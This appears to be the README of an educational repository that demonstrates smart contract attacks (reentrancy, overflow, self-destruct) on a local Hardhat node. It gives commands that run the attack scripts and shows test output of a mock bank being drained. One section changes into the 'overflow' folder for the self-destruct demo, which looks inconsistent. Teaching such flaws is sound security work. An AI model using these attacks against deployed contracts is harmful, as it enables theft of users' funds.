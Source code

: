 # VulnVault
A collection of smart contract vulnerability demos and exploit examples

Before executing each demo, you have to setup the node with the following command.

```bash
npx hardhat node
```

## Reentrancy Attack

```bash
$ cd reentrancy
$ npx hardhat compile
$ npx hardhat run scripts/ReentrancyAttack.js --network localhost
$ npx hardhat test test/ReentrancyAttack.js

  Reentrancy Attack
Bank balance before attack: 10.0
Attacker balance before attack: 10000.0
-------------------------------
Number of times `withdraw` has been called: 11n
Bank balance after attack: 0.0
Attacker balance after attack: 10009.999707416496813617
    ✔ should allow reentrancy attack to drain funds from the bank


  1 passing (540ms)
```

## Overflow Attack

```bash
$ cd overflow
$ npx hardhat compile
$ npx hardhat run scripts/OverflowAttack.js --network localhost
$ npx hardhat test test/OverflowAttack.js

  Overflow Attack
Bank balance before attack: 10.0
Attacker balance before attack: 9989.998708259262918561
-------------------------------
Bank balance after attack: 0.0
Attacker balance after attack: 9999.998604234268539613
    ✔ should allow overflow attack to drain funds from the bank


  1 passing (480ms)
```

## SelfDestruct Attack

```bash
$ cd overflow
$ npx hardhat compile
$ npx hardhat run scripts/SelfDestructAttack.js --network localhost
$ npx hardhat test test/SelfDestructAttack.js

  SelfDestruct Attack
Bank balance before attack: 2.0
Attacker balance before attack: 10000.0
-------------------------------
Bank balance after attack-2: 0.0
Attacker balance after attack: 10001.999854172729825825
    ✔ should allow self-destruct attack to drain funds from the bank


  1 passing (582ms)
```
